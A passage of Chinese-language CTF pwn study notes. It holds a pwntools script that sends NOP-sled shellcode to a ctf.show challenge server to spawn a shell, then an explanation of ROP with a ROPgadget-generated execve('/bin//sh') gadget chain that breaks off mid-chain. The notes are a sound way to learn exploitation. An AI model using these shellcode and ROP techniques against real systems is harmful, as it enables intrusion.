 ```python
context(arch='amd64',os='linux',log_level = 'debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28121)
shellcode = asm(shellcraft.sh())
payload = b'\x90'*1336 + shellcode
io.recvuntil("The current location: 0x")
addr = u64(unhex(io.recvline(keepends=False).zfill(16)),endian='big')
print ("Addr: " + hex(addr))
io.recvuntil("> ")
io.sendline(payload)

io.recvuntil("> ")
sh = addr + 668 + 0x35;
print("Sending: " + hex(sh))

io.sendline(hex(sh))
io.interactive()


```

#### ROP

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。
##### 简单ROP：

```shell
ROPgadget --binary pwn --ropchain
#上面是工具的自带生成rop工具 pwn是文件名
#利用这个生成的rop来写payload
```

```python
#例子1

p = cyclic(0x18+4)
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret

p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
```